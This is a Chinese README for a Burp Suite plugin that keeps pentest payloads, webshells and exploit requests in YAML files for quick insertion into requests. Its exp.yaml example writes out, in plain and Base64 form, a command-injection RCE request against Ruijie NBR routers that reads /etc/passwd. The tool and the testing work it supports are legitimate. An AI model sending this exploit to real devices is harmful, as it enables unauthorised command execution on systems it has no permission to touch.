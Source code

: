 ## DAM-渗透辅助小工具

### 前言

1. 在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 **抄一个** Burpsuite 插件，直接在 Burpsuite 点一点操作就简单多了。
2. 在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。
3. 每次都需要到其他目录打开一些工具，直接在BurpSuite 打开其他工具进行目录扫描等操作就简单多了



### 使用

1、加载插件初始化的配置文件会放在的`/用户根目录/.config/DAM/`目录下。

2、**使用 vscode 来修改 exp.yaml ， payload.yaml 和 tools.yaml** （**yaml 语法**）

```
DAM:
|_exp.yaml
|_payload.yaml
|_tools.yaml
|_temp.req (单独启动的时候用来保存 request 请求)
```



#### payload.yaml

该文件是把 **Payload 插入到 数据包 中** （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```
<?php phpinfo();?>
```

需要把 payload  Base64 编码

```
PD9waHAgcGhwaW5mbygpOz8+
```

```
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```

![2](./images/2.png)



#### exp.yaml

获取 host 和 Cookie **修改整个数据包**（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s`  ,  如果是未授权的就不需要 cookie。

```
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp   **Base64编码**

```
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（**yaml 语法**）

```
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

![1](./images/1.png)

#### tools.yaml

可以直接在GUI直接新增和删除，也可以手动添加

```
ping: ping -nc 1 {host}

ffuf: ffuf.exe -w dict.txt -u {url}/FUZZ

ffuf2: ffuf.exe -w dict.txt -request {request} -request-proto http -mode clusterbomb
```

**配置**

- {request}表示使用请求包
- {url}表示使用当前的url
- {host}表示使用当前的host



### 更新日志

#### 1.0.3

1.0.3 版本所有配置都放在了`/用户根目录/.config/DAM/`，新增了一个快捷启动工具的功能，可以通过设置工具的路径和命令进行快捷启动。Linux 系统需要安装 `gnome-terminal` ，mac 没测试。

该功能主要抄的工具：

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather

![3](./images/5.png)

添加保存完成之后在菜单右键可以看到工具

![3](./images/6.png)

#### 1.0.2

1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload

![3](./images/3.png)

也可以单独运行，其他功能还没写

![4](./images/4.png)


### 已知BUG

第三层不能同名，这样通过 JSP 获取内容就会出错，只会获取到最后一个 冰蝎3 的 JSP

```yaml
WebShell:
  哥斯拉:
    JSP:
      dGVzdA==
  冰蝎3:
    JSP:
      MTIz
```

建议修改为

```yaml
WebShell:
  哥斯拉:
    哥斯拉-JSP:
      dGVzdA==
  冰蝎3:
    冰蝎3-JSP:
      MTIz
```

这样就可以获取到相对的内容。





### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

https://github.com/d3vilbug/HackBar

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather
